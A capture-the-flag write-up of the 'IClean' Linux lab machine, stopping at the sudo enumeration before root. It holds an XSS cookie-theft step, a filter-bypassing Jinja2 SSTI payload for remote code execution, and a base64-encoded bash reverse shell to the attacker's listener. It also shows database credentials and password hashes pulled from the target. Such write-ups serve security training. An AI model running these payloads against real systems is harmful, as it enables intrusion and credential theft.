<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />

Hello hackers! Today we’re diving into the IClean Machine, a Medium difficulty challenge. The journey begins by exploiting an XSS vulnerability to steal cookies, which will give us access to an Administration Panel. There, we’ll take advantage of an SSTI to gain RCE and access the victim machine. Once inside, we’ll explore a MySQL database to uncover a crackable hash that leads us to a password for switching users. Finally, we’ll exploit a SUDOERS permission to escalate privileges and achieve root access.

<br />

# Enumeration:

<br />

As always, we'll start by launching our `nmap` scan:

<br />

```bash
❯ nmap -p- 10.10.11.12 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 15:04 CET
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.11.12
Host is up (0.044s latency).
Not shown: 65471 closed tcp ports (reset), 62 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.03 seconds
```

<br />

Ports `22` and `80` open, nothing out of the ordinary.

<br />

# Web Enumeration:

<br />

Proceed to list the website, but doing so redirects us to the next domain:

`-> capiclean.htb.` 

So we added it to the /etc/hosts to be able to access:

<br />

```bash
❯ echo -n '10.10.11.12 capiclean.htb' | tee -a /etc/hosts
10.10.11.12 capiclean.htb
```

<br />

We relist the website and find a fairly straightforward page and another with a login where we `try default credentials` like admin:admin but nothing: 

<br />



<br />



<br />

We kept looking and found another page a little more interesting with an `user input` in the `/quote` path:

<br />



<br />

As always when we have an input, we `intercept the request with Burp Suite` and start `testing different types of vulnerabilities` such as SQL Injection, XSS...

<br />



<br />

# Exploiting XXS (Cross-Site Scripting):

<br />

After several tests we are able to `receive a request by GET` from the server `exploiting an XSS`:

Payload -> `</img>`


<br />



<br />

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [30/Dec/2024 16:18:07] code 404, message File not found
10.10.11.12 - - [30/Dec/2024 16:18:07] "GET /testing.png HTTP/1.1" 404 -
```

<br />

`We have an XSS` so to take advantage of it we built a payload with fetch to `try to steal the cookies` from some admin who is behind the web loading our malicious code:

Payload -> `</img>`


<br />


<br />

SURPRISE! We steal a cookies vault!

<br />

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [30/Dec/2024 16:25:06] code 404, message File not found
10.10.11.12 - - [30/Dec/2024 16:25:06] "GET /testing.pngsession=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Z3KL3Q.0csXF3KeXH5L4JLYhYqvjWLgfX8 HTTP/1.1" 404 -
```

<br />

Fuzzed the web a bit to see if we could find a path where we could use our new cookies and discovered the `/dashboard path`.

<br />

```bash
000002927:   302        5 L      22 W       189 Ch      "dashboard"
```

<br />

Once we have discovered this path, we set the cookies and access it, managing to enter what appears to be the `website's administration panel`:

<br />



<br />



<br />

# Dashboard Enumeration:

<br />

The panel we have accessed consists of `4 different pages`, so we will `investigate them 1 by 1 to better understand` how the website works and identify any vulnerabilities:

<br />

## Generate An Invoice:

<br />

Access the `/InvoiceGenerator` path and fill in the data:

<br />



<br />

Click on generate and it returns the ID of the generated invoice:

<br />



<br />

## Generate A QR:

<br />

We access the `/QRGenerator` and with the invoice ID we generate a QR Code:

<br />



<br />

Click on generate and it returns the QR Code Link:

<br />



<br />

# Insert The URL Link:

<br />

We copy the url link and insert it in the section where it tells us to enter it:

<br />



<br />

Click on submit and we access a url with the invoice we have generated:

<br />



<br />

# Exploiting SSTI (Server Side Template Injection):

<br />

Now that we have seen in detail how the website works, we proceed to `intercept with Burp Suite` the request of the `/QRGenerator` and when we send it we see in the response the `raw base64 encoded image`:

<br />



<br />

We try to `manipulate the "qr_link" field` and we see it reflected in the response:

<br />



<br />


We're being able to see our `output reflected`, so the first vulnerability that comes to mind is an `SSTI`, let's test it with a simple operation like `{{7*7}}`:

<br />



<br />

Did it! The result of the `operation is reflected in the output`, so let's try to execute a command in the victim machine with one of the most `typical jinja2 payloads to bypass the most common filters`:

`Payload`:

<div style="font-family: monospace; background-color: #1e1e1e; color: white; padding: 10px; border-radius: 5px;">
&#123;&#123;request&#124;attr(&#39;application&#39;)&#124;attr(&#39;\x5f\x5fglobals\x5f\x5f&#39;)&#124;attr(&#39;\x5f\x5fgetitem\x5f\x5f&#39;)(&#39;\x5f\x5fbuiltins\x5f\x5f&#39;)&#124;attr(&#39;\x5f\x5fgetitem\x5f\x5f&#39;)(&#39;\x5f\x5fimport\x5f\x5f&#39;)(&#39;os&#39;)&#124;attr(&#39;popen&#39;)(&#39;id&#39;)&#124;attr(&#39;read&#39;)()&#125;&#125;
</div>

<br />



<br />

Perfect! `We have an RCE`, we are going to establish a `Reverse Shell` to gain access to the Machine.

In this case, the `typical bash Reverse Shell` doesn't work, I think it's because some characters conflict, so to avoid this we'll `base64 encode our payload`:

<br />

```bash
❯ echo 'bash -c  "bash -i >& /dev/tcp/10.10.14.13/443  0>&1"' | base64 -w 0; echo
YmFzaCAtYyAgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzICAwPiYxIgo=
```

<br />

Once we have our payload encoded, we will simply have to enter it into the jinja payload and listen on port 443 to receive the connection when sending the request to the server:

`Final Payload`:

<div style="font-family: monospace; background-color: #1e1e1e; color: white; padding: 10px; border-radius: 5px;">
&#123;&#123;request&#124;attr(&#39;application&#39;)&#124;attr(&#39;\x5f\x5fglobals\x5f\x5f&#39;)&#124;attr(&#39;\x5f\x5fgetitem\x5f\x5f&#39;)(&#39;\x5f\x5fbuiltins\x5f\x5f&#39;)&#124;attr(&#39;\x5f\x5fgetitem\x5f\x5f&#39;)(&#39;\x5f\x5fimport\x5f\x5f&#39;)(&#39;os&#39;)&#124;attr(&#39;popen&#39;)(&#39;echo+YmFzaCAtYyAgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzICAwPiYxIgo=&#124;base64+-d&#124;bash&#39;)&#124;attr(&#39;read&#39;)()&#125;&#125;
</div>

<br />



<br />

Receive the Reverse Shell as the user `www-data`:

<br />

```bash
❯ sudo nc -nlvp 443
[sudo] contraseña para theredp4nther: 
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.12] 36868
bash: cannot set terminal process group (1227): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@iclean:/opt/app$ 

```

<br />

Properly `sanitize the tty` so that it is fully functional:

<br />

```bash
www-data@iclean:/opt/app$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
www-data@iclean:/opt/app$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

<br />

Intrusion ready! Let's go with the Privilege Escalation!

<br />

# Privilege Escalation: www-data -> consuela

<br />

Once inside the system, we realize that there is a user named `consuela`, but when we try to enter their directory it tells us that permission denied:

<br />

```bash
www-data@iclean:/opt/app$ cd /home
cd /home
www-data@iclean:/home$ ls
ls
consuela
www-data@iclean:/home$ cd consuela
cd consuela
bash: cd: consuela: Permission denied
www-data@iclean:/home$
```

<br />

We continue to list the system and find a file `"app.py"` with credentials to `log into a database`:

<br />

```bash
www-data@iclean:/opt/app$ cat app.py | grep -i password -C 2
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
```

<br />

We connect to the database and list the following tables:

<br />

```bash
www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 875
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)
```

<br />

As we can see, we have a table that looks quite interesting, the `users table`, so let's see its contents:

<br />

```bash
mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

<br />

We have `found a hash` for the user we want to pivot to, so we `crack it` in [crackstation.net](https://crackstation.net/) and we have a `credential`!!
 
<br />



<br />

## Pivoting to User Consuela with the found Credentials:

<br />

```bash
www-data@iclean:/opt/app$ su consuela
Password: 
consuela@iclean:/opt/app$ id
uid=1000(consuela) gid=1000(consuela) groups=1000(consuela)
consuela@iclean:/opt/app$ cat /home/consuela/user.txt 
eba486700e25313333bb89fe31xxxxxx
```

<br />

# Privilege Escalation: consuela -> root

<br />

Once we became `consuela`, proceed to list her `SUDOERS privileges`:

<br />

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

<br />

